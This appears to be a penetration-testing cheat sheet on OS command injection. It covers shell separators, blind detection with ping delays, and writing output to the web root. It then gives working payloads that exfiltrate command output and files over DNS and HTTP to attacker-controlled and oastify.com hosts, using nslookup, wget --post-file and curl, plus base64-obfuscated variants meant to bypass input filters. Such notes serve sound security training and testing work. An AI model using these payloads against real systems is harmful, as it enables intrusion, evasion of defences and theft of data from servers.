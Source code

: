 ![[OS Command Injection.jpg]]

# Recon

First step is to perform app mapping and identify any instances where the app appears to be interacting with the underlying OS by calling external processes or accessing the file system. The app may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc..).

It is recommended to probe all these instances for OS command injection.
# Background Knowledge

The characters `;`, `|` and `&` and newline `%0a` can be used to batch multiple commands one after another. Each of these characters should be used when probing for command injection vulnerabilities, as the app may reject some inputs but accept others.

The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command. This will cause the interpreter to execute this command first before continuing to execute the remaining command string:

```bash
nslookup `whoami`.server-you-control.net
```

>[!info]
>Note that the different shell metacharacters have subtly different behaviours that may affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.
# Example

Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters. For example, the & and space characters may need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload.
# Simple Command Injection

```bash
& echo test123 &
```
# Blind Command Injection

Many times, the results of the injected commands are not returned in the applications responses. If that is the case, you can use the ping command to trigger a time delay in the app's response by causing the server to ping its loopback interface for a specific time period.

To maximize chances of identifying OS command injection if the app is filtering certain command separators, submit each of the following to each input fields and analyse the time taken for the app to respond:

```bash
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping -i 30 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```
# Output Redirection

You can also redirect a command output to a file using the `>` character. The below example redirects the output of the OS command to a file within the web root, then you can access the file to view the contents through the browser:

```bash
; whoami > /var/www/images/test;
```
# Reverse Shells

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
# DNS Data Exfiltration

Using backticks and `$command`:

```bash
; nslookup $(whoami).attacker-server.net ;
; nslookup `whoami`.attacker-server.net ;
```
# Obfuscation Payloads

The goal here is to learn how the following payload can be obfuscated to bypass filters for data exfiltration. The payloads can be combined when exploiting template injection or other vulnerabilities that use OS command injection.

Original payload:

```bash
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

Obfuscation using the "echo" command to help obfuscate the word "hostname":

```bash
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

Obfuscation using base64 to hide the file name:

```bash
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

Decoded payload:

```bash
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

Obfuscation using base encoding to hide the whole command:

```bash
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```
# Other Methods

Some other methods to achieve data exfiltration include:

```bash
nslookup -q=cname $(cat /home/test).burp.oastify.com
wget http://burp-collab.com --post-file=/home/test
curl http://wcq0jo8.oastify.com -d @/home/test
```

